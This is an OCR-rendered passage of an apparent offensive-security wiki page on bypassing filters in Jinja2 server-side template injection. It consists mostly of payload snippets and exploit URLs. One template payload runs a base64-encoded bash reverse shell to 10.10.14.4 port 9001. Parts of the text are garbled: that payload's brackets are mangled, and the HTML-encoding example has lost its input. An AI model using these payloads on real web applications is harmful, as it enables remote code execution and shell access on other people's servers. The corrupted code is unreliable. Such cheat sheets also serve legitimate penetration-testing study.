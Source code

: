 ```
To learn about **more classes** that you can use to **escape** you can **check**:

[[../../generic-methodologies-and-resources/python/bypass-python-sandboxes/]]

### Filter bypasses

#### Common bypasses

These bypass will allow us to **access** the **attributes** of the objects **without using some chars**.\
We have already seen some of these bypasses in the examples of the previous, but let sumarize them here:

```bash
# Without quotes, _, [, ]
## Basic ones
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"][["os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"](|"\x5f\x5fimport\x5f\x5f"]] %} a {% endwith %}
{% endraw %}




```
```
- [[jinja2-ssti.md#accessing-global-objects|**Return here for more options to access a global object**]]
- [[jinja2-ssti.md#recovering-less-than-class-object-greater-than|**Return here for more options to access the object class**]]
- [[jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than|**Read this to get RCE without the object class**]]

**Avoiding HTML encoding**

By default Flask HTML encode all the inside a template for security reasons:

```python
{{''}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```